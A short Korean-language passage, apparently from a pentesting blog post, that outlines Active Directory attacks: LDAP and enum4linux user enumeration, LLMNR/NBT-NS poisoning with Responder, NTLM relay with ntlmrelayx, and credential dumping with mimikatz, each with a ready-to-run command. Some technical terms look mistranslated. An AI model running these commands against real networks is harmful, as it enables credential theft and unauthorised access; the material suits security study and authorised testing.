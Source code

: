 ## 명령어:

```js
ldapsearch -x -h <도메인_컨트롤러_IP> -b "dc=예제,dc=com" "(objectclass=user)"
enum4linux -U <대상_IP>
```

- ldapsearch
- enum4linux

# LLMNR/NBT-NS 독점공격

<div class="content-ad"></div>

LLMNR 및 NBT-NS 독려는 인증 요청을 캡처하고 중계하는 기술로 사용됩니다. Responder와 같은 도구를 사용하여 이러한 요청을 수신하고 해시를 캡처할 수 있으며, 이는 후속 공격에 사용될 수 있습니다.

## 명령어:

```js
sudo responder -I <네트워크_인터페이스>
```

- Responder

<div class="content-ad"></div>

# NTLM 릴레이

NTLM 릴레이 공격은 NTLM 해시를 캡처하고 다른 서비스로 릴레이하여 무단 액세스를 얻는 것을 의미합니다. NTLMRelayX는 이러한 공격을 수행하는 데 강력한 도구입니다.

## 명령어:

```js
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

<div class="content-ad"></div>

- NTLMRelayX

# 자격 증명 도용

Mimikatz와 같은 도구를 사용하여 메모리에서 평문 암호, 해시, PIN 코드 및 케르버로스 티켓을 추출하여 자격 증명 도용이 가능합니다.

## 명령어:

<div class="content-ad"></div>

```js
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

